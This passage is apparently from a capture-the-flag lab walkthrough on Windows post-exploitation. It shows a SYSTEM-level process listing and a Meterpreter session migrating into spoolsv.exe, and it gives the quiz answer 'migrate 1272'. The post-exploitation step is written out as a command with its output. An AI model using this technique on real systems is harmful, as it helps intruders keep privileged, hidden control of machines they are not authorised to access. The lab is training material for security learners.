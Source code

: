 ```
 1136  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1272  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1320  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1408  692   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1464  692   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1572  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1580  1684  cmd.exe               x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\cmd.exe
 1604  692   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1684  2920  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
 1904  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 2432  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2476  1272  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 2532  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2576  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2596  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 2624  692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2768  692   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2920  2344  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

`No answer needed`

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

```
meterpreter > migrate 1272
[*] Migrating from 1684 to 1272...
[*] Migration completed successfully.
```

`migrate 1272`
